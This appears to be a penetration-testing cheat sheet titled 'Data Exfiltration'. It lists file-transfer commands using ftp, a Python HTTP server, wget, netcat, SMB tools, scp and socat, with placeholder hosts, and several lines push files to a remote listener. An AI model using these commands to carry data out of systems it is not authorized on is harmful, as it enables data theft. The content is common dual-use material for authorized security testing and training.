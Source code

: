 # Data Exfiltration  

## ftp  
`ftp [FTP SERVER ADDRESS] or ftp`  
`open    - connect to an ftp server`  
`user    - enter ftp username`  
`pass    - enter ftp password`  
`bi      - binary file transfer mode`  
`hash    - enable file transfer status`  
`get     - download a file`  
`put     - upload a file`  
`mget    - download multiple files`  
`mput    - upload multiple files`  
`prompt  - enable/disable interaction (disable if downloading multiple files)`

## http  
Using Python3 to run a temporary web server to allow file downloads from the current directory:  
`$ sudo python3 -m http.server [port]`  

Using wget 
`$ wget <url> -o <destinationfile>`

## netcat
source sends the file  
source: `$nc -w 3 <DESTINATION> <PORT> < FILENAME>`  
destination: `$nc -l -p <PORT> > <FILENAME>`

destination pulls file
source: `$nc -l -p <PORT> < <FILENAME>`
destination: `$nc -w 3 <SOURCE> <PORT> > <FILENAME>`    

## rdp  
if RDP is available on the system, connect and copy/paste between the rdp client and the desktop.  This has a 2GB file size limit.  For larger file transfers, [mount a local drive](https://helpdeskgeek.com/networking/accessing-local-files-and-folders-on-remote-desktop-session/)  

 
## smb/windows file sharing  
Using smbserver.py  
smbserver.py is a python script that will create an open share in a folder of choice.  Once running, you can browse and interact through it using regular windows file sharing tools, such as Windows Explorer.  
`$ sudo smbserver.py <SHARE NAME> <LOCAL FOLDER>`  

Using cifs-utils to mount an smb share  
`$ sudo mkdir /mnt/<LOCAL FOLDER>`  
`$ sudo mount -t cifs -o username=<SHARE USER>,domain=<WINDOWS DOMAIN> //<SHARE IP>/<SHARE NAME> /mnt/<LOCAL FOLDER>`  

Using smbclient cli:  
`$ sudo smbclient \\\\<HOSTNAME>\\<SHARE>`  

In the cli:  
`cd    - change remote directory`  
`dir   - list directory`  
`get   - download file (file will be downloaded to local directory)`  
`put   - upload file (file will be uploaded to remote directory)`  
`help  - help menu`  
`exit  - exits the cli`  

Copying files from the Windows command line:  
using drive letters  
`net use <DRIVE LETTER>: \\<SMBSHARE>`  
`copy <DRIVE LETTER\SOURCE> <DRIVE LETTER\DESTINATION>`  
  
without drive letters  
`xcopy <\\HOST\SOURCE> <\\HOST\DESTINATION>`  

## ssh/scp  
`$ scp <USER>@<SOURCEHOST>:<\DIRECTORY\FILE> <USER>@<DESTINATIONHOST>:<\DIRECTORY\FILE>`  

## socat  
source: `socat FILE:<FILENAME> TCP-LISTEN:<PORT>`  
destination:  `socat TCP:<HOST>:<PORT> FILE:<FILENAME>,create`  





